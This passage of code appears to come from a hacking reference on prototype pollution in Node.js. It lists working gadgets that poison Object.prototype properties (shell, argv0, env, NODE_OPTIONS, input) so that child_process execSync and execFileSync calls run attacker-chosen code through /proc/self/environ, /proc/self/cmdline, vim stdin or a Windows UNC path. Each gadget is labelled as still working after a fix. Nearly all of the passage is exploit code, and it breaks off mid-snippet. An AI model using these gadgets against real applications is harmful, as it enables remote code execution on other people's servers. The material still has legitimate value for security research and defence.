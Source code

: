 ```

// stdin trick - working
// Working after kEmptyObject (fix)
const { execFileSync } = require("child_process")
p = {}
p.__proto__.argv0 = "/usr/bin/vim"
p.__proto__.shell = "/usr/bin/vim"
p.__proto__.input = ":!{touch /tmp/execFileSync-stdin}\n"
var proc = execFileSync("something")

// Windows
// Working after kEmptyObject (fix)
const { execSync } = require("child_process")
p = {}
p.__proto__.shell = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
p.__proto__.argv0 = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = execSync("something")
```
```



****`execSync` exploitation****


```javascript
// environ trick - working with small variation (shell and argv0)
// Working after kEmptyObject (fix)
const { execSync } = require("child_process")
p = {}
// If in windows or mac you need to change the following params to the path of ndoe
p.__proto__.argv0 = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/execSync-environ').toString())//",
}
p.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
var proc = execSync("something")

// cmdline trick - working with small variation (shell)
// Working after kEmptyObject (fix)
const { execSync } = require("child_process")
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 =
  "console.log(require('child_process').execSync('touch /tmp/execSync-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = execSync("something")

// stdin trick - working
// Working after kEmptyObject (fix)
const { execSync } = require("child_process")
p = {}
p.__proto__.argv0 = "/usr/bin/vim"
p.__proto__.shell = "/usr/bin/vim"
p.__proto__.input = ":!{touch /tmp/execSync-stdin}\n"
var proc = execSync("something")

// Windows
// Working after kEmptyObject (fix)
const { execSync } = require("child_process")
p = {}
```